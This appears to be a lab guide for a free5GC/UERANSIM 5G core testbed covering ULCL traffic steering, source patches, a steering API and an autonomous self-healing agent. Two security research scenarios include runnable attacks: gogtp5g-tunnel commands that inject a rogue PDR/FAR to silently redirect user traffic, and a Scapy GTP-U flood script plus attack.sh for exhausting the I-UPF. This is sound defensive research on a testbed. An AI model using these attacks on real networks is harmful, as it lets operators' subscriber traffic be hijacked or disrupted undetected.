


ULCL Dynamic
Traffic Steering
This guide demonstrates how to implement Dynamic Traffic Steering in a 5G Core network using the Uplink Classifier (ULCL). With the free5GC framework, it demonstrates how to route user traffic across different Anchor UPFs efficiently, adapting to real-time requirements.
Part of the network topology implementation, we used this
guide by s5uishida.
It describes a simple network topology that uses free5GC and UERANSIM for ULCL with one I-UPF and two
PSA-UPFs. We used go-upf for the implementation of the UPFs.
Topology

The VMs deployed in the setup are listed below:
| VM | IP Address | Role |
|---|---|---|
| free5gc-core | 10.160.101.137 | 5G Core (AMF, SMF, PCF, UDM, NRF, …) |
| ueransim-gnb | 10.160.101.120 | gNB simulator (UERANSIM) |
| ueransim-ue | 10.160.101.121 | UE simulator (UERANSIM) |
| i-upf | 10.160.101.143 | Intermediate / Branching UPF (ULCL node) |
| psa-upf | 10.160.101.148 | PSA anchor UPF 1 — default path |
| psa-upf2 | 10.160.101.198 | PSA anchor UPF 2 — steered path |
| server | 10.160.101.145 | Server / Data Network |
UE Details
| UE | IMSI | DNN | OP/OPc |
|---|---|---|---|
| UE | 208930000000001 | internet | OPc |
Traffic Paths
10.160.101.145/32 or dynamic API callPrerequisites
Required software versions for all VMs.
| Component | Version | Notes |
|---|---|---|
| free5GC | v3.3.0 | With SMF source patches (Section 6) |
| UERANSIM | latest | |
| gtp5g | v0.8.6 | With kernel patch (Section 5) — required on all UPF VMs |
| Go | 1.21+ | |
| Ubuntu | 20.04 / 22.04 | All VMs |
Build gogtp5g-tunnel
Run on I-UPF and PSA-UPF VMs only.
# Run on I-UPF and PSA-UPF VMs
git clone https://github.com/free5gc/go-gtp5gnl ~/go-gtp5gnl
cd ~/go-gtp5gnl/cmd/gogtp5g-tunnel
go build .gogtp5g-tunnel unless actively debugging.
SMF Configuration
File: /home/localadmin/free5gc/config/smfcfg.yaml
info:
version: 1.0.7
description: SMF initial local configuration
configuration:
smfName: SMF
sbi:
scheme: http
registerIPv4: 127.0.0.2
bindingIPv4: 127.0.0.2
port: 8000
tls:
key: cert/smf.key
pem: cert/smf.pem
serviceNameList:
- nsmf-pdusession
- nsmf-event-exposure
- nsmf-oam
snssaiInfos:
- sNssai:
sst: 1
sd: 010203
dnnInfos:
- dnn: internet
dns:
ipv4: 8.8.8.8
ipv6: 2001:4860:4860::8888
plmnList:
- mcc: 208
mnc: 93
locality: area1
pfcp:
nodeID: 10.160.101.137
listenAddr: 10.160.101.137
externalAddr: 10.160.101.137
assocFailAlertInterval: 10s
assocFailRetryInterval: 30s
heartbeatInterval: 10s
userplaneInformation:
upNodes:
gNB1:
type: AN
I-UPF:
type: UPF
nodeID: 10.160.101.143
addr: 10.160.101.143
sNssaiUpfInfos:
- sNssai:
sst: 1
sd: 010203
dnnUpfInfoList:
- dnn: internet
# NO pools -- I-UPF is a branching node only
interfaces:
- interfaceType: N3
endpoints:
- 10.160.101.143
networkInstances:
- internet
- interfaceType: N9
endpoints:
- 10.160.101.143
networkInstances:
- internet
PSA-UPF:
type: UPF
nodeID: 10.160.101.148
addr: 10.160.101.148
sNssaiUpfInfos:
- sNssai:
sst: 1
sd: 010203
dnnUpfInfoList:
- dnn: internet
pools:
- cidr: 10.60.0.0/16
staticPools:
- cidr: 10.60.100.0/24
interfaces:
- interfaceType: N9
endpoints:
- 10.160.101.148
networkInstances:
- internet
- interfaceType: N6
endpoints:
- 10.160.101.148
networkInstances:
- internet
PSA-UPF2:
type: UPF
nodeID: 10.160.101.198
addr: 10.160.101.198
sNssaiUpfInfos:
- sNssai:
sst: 1
sd: 010203
dnnUpfInfoList:
- dnn: internet
pools:
- cidr: 10.61.0.0/16 # dummy pool -- required
interfaces:
- interfaceType: N9
endpoints:
- 10.160.101.198
networkInstances:
- internet
- interfaceType: N6
endpoints:
- 10.160.101.198
networkInstances:
- internet
links:
- A: gNB1
B: I-UPF
- A: I-UPF
B: PSA-UPF
- A: I-UPF
B: PSA-UPF2 # second branch for ULCL
ulcl: true
t3591:
enable: true
expireTime: 16s
maxRetryTimes: 3
t3592:
enable: true
expireTime: 16s
maxRetryTimes: 3
nrfUri: http://127.0.0.10:8000
nrfCertPem: cert/nrf.pem
urrPeriod: 30
urrThreshold: 500000
requestedUnit: 1000
logger:
enable: true
level: debug
reportCaller: true
10.61.0.0/16), ActivateTunnelAndPDR() panics with a nil pointer dereference.
upfcfg.yaml files. N6 is only used in smfcfg.yaml.
UE Routing
File: /home/localadmin/free5gc/config/uerouting.yaml
userDefinedRoutingRules:
- dnn: internet
topology:
- A: gNB1 B: I-UPF
- A: I-UPF B: PSA-UPF
specificPath:
- dest: 10.160.101.145/32
path: [I-UPF, PSA-UPF] # I-UPF -> PSA-UPF
- dest: 10.160.101.145/32
path: [I-UPF, PSA-UPF2] # I-UPF -> PSA-UPF2
- dest: 8.8.8.8/32
path: [I-UPF] # I-UPF -> 8.8.8.8FindULCL() can identify the branching point and install SDF-filtered PDRs on I-UPF.
gtp5g Kernel Module Patch
Apply on every UPF VM: I-UPF, PSA-UPF, and PSA-UPF2.
Patch — pdr.c (~line 308)
Apply Patch with Python
python3 - <<'EOF'
content = open('/home/localadmin/gtp5g/src/pfcp/pdr.c').read()
old = """\
if (pdi->ue_addr_ipv4)
if (!(pdr->af == AF_INET && target_addr &&
*target_addr == pdi->ue_addr_ipv4->s_addr))
continue;"""
new = """\
if (pdi->ue_addr_ipv4)
if (!(pdr->af == AF_INET && target_addr &&
(*target_addr == pdi->ue_addr_ipv4->s_addr ||
iph->daddr == pdi->ue_addr_ipv4->s_addr)))
continue;"""
assert old in content, 'Pattern not found -- check line numbers'
open('/home/localadmin/gtp5g/src/pfcp/pdr.c', 'w').write(content.replace(old, new))
print('Patch applied successfully')
EOFRebuild and Reload
cd ~/gtp5g
make clean && make
sudo cp ~/gtp5g/gtp5g.ko /lib/modules/$(uname -r)/kernel/drivers/net/gtp5g.ko
sudo rmmod gtp5g 2>/dev/null
sudo modprobe gtp5g
lsmod | grep gtp5gSMF Source Code Patches
Three Go source patches that fix bugs in free5GC v3.3.0 preventing ULCL from working correctly.
Patch 1 — Fix PSA2 N3 Interface Check
File: NFs/smf/internal/context/bp_manager.go — function SelectPSA2()
Patch 2 — Fix FindULCL Nil Pointer
File: NFs/smf/internal/context/bp_manager.go — function FindULCL()
Patch 3 — Fix SDF Filter Direction
File: NFs/smf/internal/sbi/processor/ulcl_procedure.go — around lines 222
and 381
Rebuild SMF
cd ~/free5gc/NFs/smf
go build ./...
go build -o ~/free5gc/bin/smf ./cmd/Dynamic Steering API
Three new files implement a REST endpoint on the SMF that triggers live path switching via PFCP Session Modification.
File 1 — api_steering.go
package sbi
import (
"net/http"
"github.com/gin-gonic/gin"
)
func (s *Server) getSteeringRoutes() []Route {
return []Route{
{
Name: "Steer Traffic",
Method: http.MethodPost,
Pattern: "/steer",
APIFunc: s.HTTPSteerTraffic,
},
}
}
func (s *Server) HTTPSteerTraffic(c *gin.Context) {
s.Processor().HandleSteerTraffic(c)
}File 2 — Route Registration
steeringGroup := engine.Group("/nsmf-steering/v1")
steeringGroup.POST("/steer", server.SteerTraffic)Startup Order
sudo ip link delete upfgtp 2>/dev/null
cd ~/gtp5g/go-upf && sudo ./upf -c upfcfg.yaml &sudo ip link delete upfgtp 2>/dev/null
cd ~/gtp5g/go-upf && sudo ./upf -c upfcfg.yaml &sudo ip link delete upfgtp 2>/dev/null
cd ~/gtp5g/go-upf && sudo ./upf -c upfcfg.yaml &cd ~/free5gc && ./build.shcd ~/UERANSIM/build
sudo ./nr-gnb -c ../config/free5gc-gnb.yaml &cd ~/UERANSIM/build
sudo ./nr-ue -c ../config/free5gc-ue.yaml &
sleep 3
ping -I uesimtun0 10.160.101.145 -c 3iptables / Routing Rules
PSA-UPF (10.160.101.148)
sudo iptables -t nat -A POSTROUTING -s 10.60.0.0/16 -o <N6_IFACE> -j MASQUERADE
sudo ip route add 10.160.101.145/32 dev <N6_IFACE>PSA-UPF2 (10.160.101.198)
sudo iptables -t nat -A POSTROUTING -s 10.60.0.0/16 -o <N6_IFACE> -j MASQUERADE
sudo ip route add 10.160.101.145/32 dev <N6_IFACE>Server VM
sudo ip route add 10.60.0.0/16 via 10.160.101.148
sudo ip route add 10.60.0.0/16 via 10.160.101.198 metric 200Using the Dynamic Steering API
127.0.0.2:8000. All
curl commands must be run on the core VM with sudo.
Use steer.sh script
./steer.sh 10.160.101.148 # steer to PSA-UPF
./steer.sh 10.160.101.198 # steer to PSA-UPF2Verification Checklist
ping -I uesimtun0 10.160.101.145
— confirm packets flow before steering.sudo tcpdump -i upfgtp -n
simultaneously on both PSA-UPF VMs.sudo dmesg | tail -10 —
should NOT contain No PDR match this skb.Troubleshooting
sudo ip link delete upfgtpScenario 1 — The Invisible Redirect
A rogue PDR/FAR is injected directly into the I-UPF kernel, bypassing the SMF entirely. Traffic is silently redirected to an unauthorized PSA-UPF while the control plane remains unaware.
ping -I uesimtun0 10.160.101.145 succeeds from ueransim-ue.
Phase 1 — Baseline capture
ping -I uesimtun0 10.160.101.145 -c 30sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel list far | grep -A 8 '"PeerAddr"'sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel list far > ~/baseline_far.json
sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel list pdr > ~/baseline_pdr.jsonPhase 2 — Attack injection
ping -I uesimtun0 10.160.101.145 -c 1000 -i 0.5sudo tcpdump -i ens18 -n 'udp port 2152'sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel add far upfgtp 1:99 \
--action 2 \
--hdr-creation 256 2 10.160.101.198 2152sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel add pdr upfgtp 1:99 \
--pcd 1 \
--hdr-rm 0 \
--ue-ipv4 10.60.0.1 \
--f-teid 2 10.160.101.143 \
--far-id 99sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel list far | grep -A 8 '"PeerAddr"'ping -I uesimtun0 10.160.101.145 -c 20Phase 3 — Recovery
sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel delete pdr upfgtp 1:99
sudo ~/go-gtp5gnl/cmd/gogtp5g-tunnel/gogtp5g-tunnel delete far upfgtp 1:99sudo tcpdump -i ens18 -n 'udp port 2152' -c 20Phase 4 — Observation & Results
| Measurement | Baseline | During Attack | Recovery |
|---|---|---|---|
| Traffic Destination | 10.160.101.148 (Authorized) | 10.160.101.198 (Rogue) | 10.160.101.148 |
| Kernel / UPF Rules | Standard (FAR/PDR 1-10) | PDR/FAR 99 injected (unauthorized) | Standard (baseline rules restored) |
| SMF Awareness | Full awareness | None (blind to rogue rule) | Full awareness |
| Avg RTT (Latency) | 1.385 ms | 1.477 ms | 1.385 ms |
| Packet Loss | 0% | 0% | 0% |
| Control/User Plane Divergence | No | Yes ⚠ | No |
What We Learned
The SMF sends rules but cannot verify the UPF's kernel state. Rogue PDR/FAR injection bypasses SMF oversight, leaving the control plane unaware of actual forwarding.
The attack is fully silent: RTT increased only by +0.092 ms and packet loss remained 0%, well within normal jitter bounds. Standard monitoring tools would not detect it.
The control plane believed traffic was following authorized paths, while the UPF redirected packets to a rogue destination. Both planes stayed operational without session disruption.
The only observable difference is a minor RTT increase (+0.092 ms), which is insufficient for SLA or latency-based alarms, highlighting the need for CP/UP verification mechanisms.
Removing the rogue kernel rules restores full CP/UP alignment without resetting user sessions, since the SMF state remained intact.
Scenario 2 — ULCL Resource Exhaustion
The I-UPF is the single classification point for all UE traffic. By flooding it with crafted GTP-U packets
using real TEIDs, an attacker forces the gtp5g kernel module to evaluate its full PDR rule set
for every packet — while simultaneously exhausting CPU via stress-ng. This demonstrates
the architectural bottleneck inherent to the ULCL design: the classifier saturates while downstream
PSA-UPFs remain completely idle.
ping -I uesimtun0 10.160.101.145 succeeds before starting.
A second VM (attacker, 10.160.101.202) is required.
Attacker VM Setup
Run once on the attacker VM (10.160.101.202) before the scenario.
# Install dependencies
sudo apt update && sudo apt install -y python3-scapy tcpreplay stress-ng
# Verify Scapy GTP support
python3 -c "from scapy.contrib.gtp import GTP_U_Header; print('Scapy GTP OK')"
# Set up passwordless SSH to I-UPF (enter password once only)
ssh-keygen -t rsa -N "" -f ~/.ssh/id_rsa
ssh-copy-id localadmin@10.160.101.143
ssh localadmin@10.160.101.143 "echo SSH OK"Discover Real TEIDs
The flood must use real active TEIDs to enter the PDR evaluation pipeline. Run while the UE is connected.
# Capture active GTP-U TEIDs from live traffic
sudo tshark -i ens18 -f "udp port 2152" -T fields \
-e gtp.teid -c 10 2>/dev/nullNote the TEID values returned (e.g.
0x00000001, 0x00000002). Update REAL_TEIDS in flood.py
accordingly.
Create flood.py
Place on the attacker VM at ~/scenario_2/flood.py.
from scapy.all import *
from scapy.contrib.gtp import GTP_U_Header
import random
IUPF_IP = "10.160.101.143" # I-UPF N3 interface
GTP_PORT = 2152
IFACE = "ens18"
REAL_TEIDS = [0x00000001, 0x00000002] # update from tshark output
TOTAL = 5000
print(f"[*] Preparing {TOTAL} packets...")
packets = []
for i in range(TOTAL):
pkt = (
Ether() /
IP(src="10.160.101.202", dst=IUPF_IP) /
UDP(sport=RandShort(), dport=GTP_PORT) /
GTP_U_Header(teid=random.choice(REAL_TEIDS)) /
IP(src="10.60.0.1", dst="10.160.101.145") /
UDP(sport=RandShort(), dport=random.randint(1024, 65535)) /
Raw(load="X" * 512)
)
packets.append(pkt)
print(f"[*] {TOTAL} packets ready")
print(f"[*] Sending at 100,000 PPS — Ctrl+C to stop\n")
loop = 0
while True:
sendpfast(packets, pps=100000, iface=IFACE)
loop += 1
print(f"[*] {TOTAL * loop} packets sent...")Create attack.sh
Combines GTP-U flood and CPU exhaustion into a single command. Place at ~/scenario_2/attack.sh.
#!/bin/bash
echo "[*] Attack starting from $(hostname) (10.160.101.202)"
echo "[*] Target: I-UPF (10.160.101.143)"
echo ""
echo "[*] Step 1 — Launching CPU exhaustion on I-UPF via SSH..."
ssh localadmin@10.160.101.143 "stress-ng --cpu 4 --timeout 60s" &
sleep 1
echo "[*] Step 2 — Launching GTP-U flood toward I-UPF..."
sudo python3 ~/scenario_2/flood.py
echo ""
echo "[*] Attack complete."chmod +x ~/scenario_2/attack.shPhase 1 — Baseline
while true; do
RESULT=$(curl -s -o /dev/null -w "%{time_total}" \
--interface uesimtun0 http://10.160.101.145/)
echo "$(date +%H:%M:%S) ${RESULT}s"
sleep 1
doneExpected baseline:
~0.003–0.005s per request. Keep running throughout the entire scenario.
while true; do
echo -n "$(date +%H:%M:%S) I-UPF CPU: "
ssh localadmin@10.160.101.143 \
"top -bn1 | grep 'Cpu(s)' | awk '{print \$2}'"
sleep 2
doneExpected baseline: 0.0% or near
zero.
# Run during the attack to confirm packets arrive
while true; do
R1=$(cat /proc/net/dev | grep ens18 | awk '{print $3}')
sleep 1
R2=$(cat /proc/net/dev | grep ens18 | awk '{print $3}')
echo "$(date +%H:%M:%S) RX PPS: $((R2-R1))"
doneBaseline: 20–50 PPS.
During attack: ~110,000 PPS.
Phase 2 — Attack
./scenario_2/attack.shSimultaneously starts
stress-ng --cpu 4 on I-UPF via SSH and sends 100,000 PPS of crafted GTP-U packets toward
I-UPF's N3 interface.
# Before attack
11:49:08 I-UPF CPU: 0.0
11:49:10 I-UPF CPU: 0.0
# During attack
11:49:29 I-UPF CPU: 75.4
11:49:33 I-UPF CPU: 66.2
11:49:37 I-UPF CPU: 77.1
11:49:41 I-UPF CPU: 80.6mpstat -P ALL 2 5
Look for one core with elevated %sys + %soft reaching 30–38% each.
This confirms gtp5g concentrates all classification work on a single core and cannot
distribute load across available hardware resources.
Phase 3 — Observation & Results
%sys + %soft
load, confirming single-threaded GTP classification. PSA-UPF CPU remains near 0% throughout — the
bottleneck is architectural, not capacity-related.
| Metric | Baseline | During Attack | Proves |
|---|---|---|---|
| I-UPF overall CPU | ~0% | 70–85% | Resource exhaustion |
| Core 3 %sys + %soft | ~5% | 60%+ | Single-threaded bottleneck |
| PSA-UPF CPU | ~0% | ~0% | Architectural asymmetry |
| I-UPF RX PPS | 20–50 | ~110,000 | Flood is real |
| curl latency | ~4ms | stable* | See note below |
gtp5g operates at kernel interrupt priority and maintains forwarding
performance even under 80% CPU load. Forwarding latency degradation would manifest in a hardware deployment
with DPDK-based UPFs at multi-million PPS rates. The CPU bottleneck evidence from mpstat
remains the primary result of this scenario.
Phase 4 — Stop & Recover
# Press Ctrl+C in the attack.sh terminal
# stress-ng exits automatically after 60s timeout
# Verify CPU returns to baseline
ssh localadmin@10.160.101.143 \
"top -bn1 | grep 'Cpu(s)' | awk '{print \$2}'"# CPU should have remained near 0% throughout
top -bn1 | grep 'Cpu(s)'
# Traffic should still flow normally post-attack
sudo tcpdump -i upfgtp -n -c 10gtp5g concentrates all processing on one core, reaching 60%+ combined
kernel and interrupt load — while PSA-UPFs remain completely idle. This asymmetric resource
distribution cannot be resolved by adding PSA-UPF capacity alone, motivating the intent-based self-healing
mechanism presented in Scenario 3.
Scenario 3 — Intent-Based Self-Healing

The N9 link between I-UPF and PSA-UPF is subjected to a gray failure — sustained packet loss and delay that degrades user quality without triggering a full link-down event. An autonomous agent running on the core VM monitors the N9 path health via periodic ICMP probes and, upon detecting degradation, invokes the SMF steering API to relocate traffic to PSA-UPF2. The entire detect-decide-act cycle completes in under 6 seconds with zero human intervention.
i-upf and ueransim-ue must be configured.
Confirm sudo ssh localadmin@10.160.101.143 echo OK and
sudo ssh localadmin@10.160.101.121 echo OK succeed without a password prompt.
Architecture — How It Works
The agent runs on free5gc-core and SSHes into I-UPF to send 10 ICMP probe packets toward PSA-UPF every
~2 seconds. Both probe packets and UE GTP-U packets traverse the same physical interface
(ens18) on I-UPF. When tc netem is applied to ens18, it drops
packets from both flows equally — so probe loss is a reliable proxy for UE path health.
The agent also tails pings.txt on ueransim-ue via SSH to confirm UE-side loss as ground truth.
| Component | Location | Role |
|---|---|---|
| agent.py | free5gc-core | Autonomous healing agent — detects N9 degradation, triggers steering |
| measurement.py | free5gc-core | Post-processing — reads pings.txt, calculates 3-phase MOS |
| measurement_stream.py | free5gc-core | Video stream analysis — reads server-side pcap, calculates MOS from RTP sequence gaps |
| steer.sh | free5gc-core | Manual steering script — calls SMF API and confirms by UPF IP |
| pings.txt | ueransim-ue | Live UE ping log — ground truth for packet loss measurement |
Setup — Configure Passwordless SSH
Run once on free5gc-core before the scenario.
# Generate root SSH key
sudo ssh-keygen -t rsa -N "" -f /root/.ssh/id_rsa
# Copy key to i-upf and ueransim-ue
sudo ssh-copy-id localadmin@10.160.101.143
sudo ssh-copy-id localadmin@10.160.101.121
# Enable PubkeyAuthentication on ueransim-ue if needed
# On ueransim-ue:
sudo sed -i 's/PubkeyAuthentication no/PubkeyAuthentication yes/' /etc/ssh/sshd_config
sudo systemctl restart sshd
# Verify
sudo ssh localadmin@10.160.101.143 echo "i-upf OK"
sudo ssh localadmin@10.160.101.121 echo "ueransim-ue OK"agent.py
Place at ~/scenario_3/agent.py on free5gc-core.
Detection logic: if ICMP probe loss ≥ 10% on any probe cycle, immediately invoke the SMF steering API
to reroute traffic to PSA-UPF2. No confirmation delay — gray failures are sustained by nature.
#!/usr/bin/env python3
import subprocess, time, re, logging
# Config
I_UPF_IP = "10.160.101.143"
UE_IP = "10.160.101.121"
MONITOR_IP = "10.160.101.148" # psa-upf (active)
FAILOVER_IP = "10.160.101.198" # psa-upf2 (backup)
SUPI = "imsi-208930000000001"
STEER_URL = "http://127.0.0.2:8000/nsmf-steering/v1/steer"
LOSS_TRIGGER = 10.0
UE_PINGS_FILE = "/home/localadmin/scenario_3/pings.txt"
logging.basicConfig(level=logging.INFO, format='%(asctime)s %(message)s')
log = logging.getLogger()
def ping_loss_detail(ip):
r = subprocess.run(
["ssh", f"localadmin@{I_UPF_IP}",
f"ping -c 10 -i 0.2 -W 1 {ip}"],
capture_output=True, text=True)
loss = 100.0; sent = received = lost = 0; seqs = []
for line in r.stdout.splitlines():
m = re.search(r'icmp_seq=(\d+)', line)
if m: seqs.append(int(m.group(1)))
if "packet loss" in line:
p = line.split(",")
try:
sent = int(p[0].strip().split()[0])
received = int(p[1].strip().split()[0])
lost = sent - received
loss = float(p[2].strip().split("%")[0])
except: pass
return loss, sent, received, lost, seqs[0] if seqs else None, seqs[-1] if seqs else None
def ue_ping_loss(num_lines=20):
r = subprocess.run(
["ssh", f"localadmin@{UE_IP}",
f"tail -n {num_lines} {UE_PINGS_FILE}"],
capture_output=True, text=True)
seqs = []; rtts = []
for line in r.stdout.splitlines():
sm = re.search(r'icmp_seq=(\d+)', line)
rm = re.search(r'time=([\d.]+)', line)
if sm: seqs.append(int(sm.group(1)))
if rm: rtts.append(float(rm.group(1)))
if len(seqs) < 2: return None, 0, 0, 0.0
dropped = len(set(range(min(seqs), max(seqs)+1)) - set(seqs))
total = len(seqs) + dropped
return (dropped/total*100) if total else 0.0, len(seqs), dropped, \
sum(rtts)/len(rtts) if rtts else 0.0
def steer(target_ip):
for i in range(1, 21):
r = subprocess.run(
["curl", "-s", "-v", "-X", "POST", STEER_URL,
"-H", "Content-Type: application/json",
"-d", f'{{"supi":"{SUPI}","targetUpf":"{target_ip}"}}'],
capture_output=True, text=True, timeout=10)
upf = re.search(r'UPF=([\d.]+)', r.stdout+r.stderr, re.IGNORECASE)
far = re.search(r'FARID=(\d+)', r.stdout+r.stderr, re.IGNORECASE)
log.info(f" Steer attempt {i}: FARID={far.group(1) if far else None} UPF={upf.group(1) if upf else None}")
if upf and upf.group(1) == target_ip:
log.info(f"SUCCESS — steered to {target_ip}")
return True
time.sleep(0.1)
return False
# ── Main ─────────────────────────────────────────────────────────────────────
t_start = time.time()
log.info(f"Agent started — monitoring N9: {I_UPF_IP} -> {MONITOR_IP}")
first_lost = last_lost = None
total_lost = total_sent = probe_count = 0
while True:
loss, sent, recv, lost, fs, ls = ping_loss_detail(MONITOR_IP)
log.info(f"N9 probe : loss={loss:.1f}% sent={sent} recv={recv} lost={lost} seqs={fs}-{ls}")
ue_loss, ue_recv, ue_drop, ue_rtt = ue_ping_loss()
if ue_loss is not None:
log.info(f"UE ping : loss={ue_loss:.1f}% recv={ue_recv} dropped={ue_drop} avg_rtt={ue_rtt:.1f}ms")
if loss >= LOSS_TRIGGER:
total_lost += lost; total_sent += sent; probe_count += 1
last_lost = time.time()
if first_lost is None: first_lost = last_lost
log.warning(f"GRAY FAILURE detected! N9 loss={loss:.1f}% UE loss={ue_loss:.1f}% — healing immediately!")
t_heal = time.time()
if steer(FAILOVER_IP):
ue_l, ue_r, ue_d, ue_rt = ue_ping_loss(30)
log.info("="*50)
log.info("CONVERGENCE METRICS")
log.info(f" Time to heal : {time.time()-t_heal:.1f}s")
log.info(f" Total convergence : {time.time()-first_lost:.1f}s")
log.info("="*50)
log.info("PACKET LOSS SUMMARY — N9 PROBE")
log.info(f" First loss : {time.strftime('%H:%M:%S', time.localtime(first_lost))}")
log.info(f" Last loss : {time.strftime('%H:%M:%S', time.localtime(last_lost))}")
log.info(f" Probe loss : {(total_lost/total_sent*100) if total_sent else 0:.1f}%")
log.info("PACKET LOSS SUMMARY — UE GROUND TRUTH")
if ue_l is not None:
log.info(f" UE dropped : {ue_d} loss={ue_l:.1f}% avg_rtt={ue_rt:.1f}ms")
log.info("="*50)
break
time.sleep(2)measurement.py
Reads pings.txt from ueransim-ue after the experiment and splits it into three phases
by detecting the RTT spike caused by the gray failure. MOS is calculated using the ITU-T G.107 E-Model.
max(baseline × 2, 20ms). This adapts to different baseline delay
configurations without manual tuning.
Demo Runbook
sudo ./steer.sh 10.160.101.148ping -I uesimtun0 10.160.101.145 | tee /home/localadmin/scenario_3/pings.txtcd ~/scenario_3 && sudo python3 agent.py# Add 15ms baseline delay first
sudo tc qdisc add dev ens18 root netem delay 15ms
# Wait 15s for clean baseline packets, then inject failure
sudo tc qdisc change dev ens18 root netem delay 15ms loss 7% \
&& echo "FAILURE_START: $(date '+%H:%M:%S.%3N')"
Watch the agent terminal. Once SUCCESS — steered to 10.160.101.198 appears,
immediately remove the loss but keep the delay:
sudo tc qdisc change dev ens18 root netem delay 15ms \
&& echo "FAILURE_END: $(date '+%H:%M:%S.%3N')"# ueransim-ue: Ctrl+C to stop ping
# i-upf: remove tc rule
sudo tc qdisc del dev ens18 root
# free5gc-core: reset path
sudo ./steer.sh 10.160.101.148sudo python3 ~/scenario_3/measurement.pyPhase 3 — Results
Expected output from a successful run:
# Agent output
2026-03-16 09:37:28 Agent started — monitoring N9: 10.160.101.143 -> 10.160.101.148
2026-03-16 09:37:30 N9 probe : loss=0.0% sent=10 recv=10 lost=0 seqs=1-10
2026-03-16 09:37:46 GRAY FAILURE detected! N9 loss=30.0% UE loss=23.1% — healing immediately!
2026-03-16 09:37:46 Steer attempt 1: FARID=5 UPF=10.160.101.198
2026-03-16 09:37:46 SUCCESS — steered to 10.160.101.198
2026-03-16 09:37:46 Time to heal : 0.2s
2026-03-16 09:37:46 Total convergence : 5.6s
# measurement.py output
PHASE 1 — Baseline loss=0.0% RTT=1.4ms MOS=4.41 Excellent
PHASE 2 — Gray Fail loss=23.1% RTT=101ms MOS=2.45 Poor
PHASE 3 — Recovery loss=0.0% RTT=1.5ms MOS=4.41 Excellent| Metric | Value | Significance |
|---|---|---|
| Time to heal | 0.2s | PFCP Session Modification latency — essentially instantaneous |
| Total convergence | ~5.6s | From first probe loss to confirmed reroute |
| Baseline MOS | 4.41 (Excellent) | Healthy path before failure |
| Gray failure MOS | 2.45 (Poor) | 7% loss + 15ms delay severely degrades QoE |
| Recovery MOS | 4.41 (Excellent) | Full quality restoration after steering |
| Human intervention | Zero | Entire detect-decide-act cycle is autonomous |
Video Stream Variant
For a more realistic QoE measurement, replace the ICMP ping with an FFmpeg RTP video stream.
Capture at the server using tcpdump and analyse with measurement_stream.py.
ffmpeg -re -f lavfi -i testsrc=size=640x480:rate=30 \
-c:v libx264 -f rtp \
rtp://10.160.101.145:5201?localaddr=10.60.0.1# Terminal 1 — receive stream
ffmpeg -i udp://10.160.101.145:5201 -c copy output.ts
# Terminal 2 — capture packets
sudo tcpdump -i eth0 -n udp port 5201 -w stream.pcapscp localadmin@10.160.101.145:~/stream.pcap ~/scenario_3/stream.pcap
sudo python3 ~/scenario_3/measurement_stream.py 2>/dev/nullVideo Stream Results
Expected output from measurement_stream.py after a successful three-phase run:
==================================================
Packets Measurement Results with Phases
==================================================
PHASE 1 — Baseline (before failure)
--------------------------------------------------
Packets received : 900
Packets lost : 1
Packet loss : 0.11%
Average inter-arrival: 32.79 ms
Estimated MOS : 4.50
PHASE 2 — Gray Failure
--------------------------------------------------
Packets received : 360
Packets lost : 104
Packet loss : 22.41%
Average inter-arrival: 42.25 ms
